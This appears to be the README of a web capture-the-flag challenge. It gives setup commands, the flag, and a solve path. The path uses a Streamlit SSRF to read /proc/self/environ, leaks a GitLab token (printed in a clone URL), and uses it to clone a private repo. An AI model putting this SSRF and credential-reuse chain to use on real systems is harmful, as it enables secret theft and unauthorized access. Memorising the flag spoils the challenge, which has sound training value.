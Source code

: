 ## Flag 🚩

STHACK{chain-your-bugz-tozemoonandback-ffs}

## Principe 💭

### Stream Is Lit Isnt It

> Unthread my plot, Chain your bugz, and Remember to Have Fun! ^_^

- Medium / Web / Linux
- Sources are given
    - Remove the `Detail` from the readme
    - Censor the `GIT_API_KEY` and `GIT_REPO_URL` in `docker compose.yml`
---

```bash
# Setup
docker compose down --remove-orphans --volumes ; docker compose up --build --remove-orphans -d

# Solve
# Open http://127.0.0.1/
# Submit http://backend_2:5000/?dump_me=/proc/self/environ
# Use token & git clone https://gitlab.com:glpat-4dQKhn3be6YmzmfzJbyx@gitlab.com/TheLaluka/totaly_safe_and_private_repo.git
# cd totaly_safe_and_private_repo && git diff 5eb01b7
# Flag: chain-your-bugz-tozemoonandback-ffs

# Logs
docker compose logs -f

# Night-Long Auto-Fix
echo '*/30 * * * * root bash -c "cd /opt/sthack-2024-challs/stream-is-lit-isnt-it ; docker compose down --remove-orphans --volumes ; docker compose up --build --remove-orphans -d"' | sudo tee -a /etc/crontab
```

## Configuration 🛠

1 host or VM with 2+ cores and ideally docker installed, only port 80 required

## Write-up 📝

- Abuse StreamLit for SSRF
- Abuse SSRF for Local File Read
- Read /proc/self/environ to get git api_key
- Reuse api_key to clone git repo
- Dig past commits to find the flag

Refer to `# Solve` for solvability check! :)

## Contact 📲

laluka
